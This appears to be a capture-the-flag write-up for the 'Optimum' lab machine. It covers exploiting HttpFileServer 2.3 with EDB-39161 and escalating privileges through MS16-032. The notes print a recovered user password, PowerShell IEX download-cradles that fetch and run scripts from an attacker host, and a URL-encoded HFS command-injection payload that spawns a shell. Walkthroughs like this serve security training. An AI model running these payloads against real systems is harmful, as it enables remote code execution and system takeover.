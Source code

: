# Optimum

10.10.10.8


Nmap discovers the only port open is port 80.

It's running HttpFileServer 2.3
![[Pasted image 20220713202221.png]]

Using EDB-39161 we are able to get a reverse shell as kostas.

Winpeas found kostas' password
![[Pasted image 20220713204437.png]]
```password
kdeEjDowkS*
```

Upgrade to a powershell shell so we can run sherlock:

```cmd.exe
powershell -c "IEX (new-object net.webclient).downloadstring('http://10.10.16.4:80/shell.ps1')"
```

Then we load and run sherlock. It looks like the system is vulnerable to MS16-032

Unfortunately our shell is running in a 32bit process, so we need to drop the shell and upgrade it by running powershell naitive:

```
http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe%20IEX%20(new-object%20net.webclient).downloadstring(%27http://10.10.16.4:80/shell.ps1%27)%22+.}
```

Now we're running a 64 bit process and can run the exploit:

```
IEX (new-object net.webclient).downloadstring('http://10.10.16.4:80/MS16-032.ps1')
```